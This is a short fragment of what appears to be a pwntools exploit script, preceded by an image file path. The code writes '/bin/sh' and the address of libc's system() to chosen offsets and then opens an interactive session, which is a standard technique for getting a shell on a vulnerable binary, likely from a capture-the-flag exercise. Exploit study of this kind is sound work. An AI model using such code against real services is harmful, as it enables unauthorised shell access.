 ```python
w(3, b'\n')
w(12001, b'/bin/sh'+b'\n')
w(12001, p64(libc.sym['system'])+b'\n')
io.interactive()
```